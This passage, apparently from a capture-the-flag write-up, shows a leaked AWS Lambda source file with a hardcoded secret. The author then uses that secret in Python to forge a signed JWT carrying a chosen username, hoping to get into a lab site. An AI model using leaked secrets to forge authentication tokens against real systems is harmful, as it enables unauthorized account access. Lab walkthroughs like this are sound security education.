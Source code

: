 

    oxdf@hacky$ unzip code
    Archive:  code
      inflating: lambda_function.py  



The code itself isn't that interesting:



    import json

    secret='RrXCv`mrNe!K!4+5`wYq' #apigateway authorization for CR-124

    '''Beta release for tracking'''
    def lambda_handler(event, context):
        try:
            id=event['queryStringParameters']['order_id']
            if id:
                return {
                   'statusCode': 200,
                   'body': json.dumps(str(resp)) #dynamodb tracking for CR-342
                }
            else:
                return {
                    'statusCode': 500,
                    'body': json.dumps('Invalid Order ID')
                }
        except:
            return {
                    'statusCode': 500,
                    'body': json.dumps('Invalid Order ID')
                }



It seems like perhaps the function will someday be used in the tracking
for the application, but for now, it doesn't do much. It does have a
`secret` variable though.

### Access Costume Site

I can guess (hope) that perhaps the same secret used in this lambda
function is used to sign the JWT for the site. I haven't been able to
get a cookie to verify it, so I'll just forge one and see if it's
accepted. What's important about the cookie is that it contain a
`username` field.



    oxdf@hacky$ python
    Python 3.8.10 (default, Nov 26 2021, 20:14:08) 
    [GCC 9.3.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    >>> import jwt
    >>> secret = "RrXCv`mrNe!K!4+5`wYq"
    >>> jwt.encode({"username":"0xdf"}, secret, algorithm='HS256')
    b'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6IjB4ZGYifQ.0kQYuCxPdN6bYT66kYg3lF-fjFRU9YvI30hNN4t77RE'

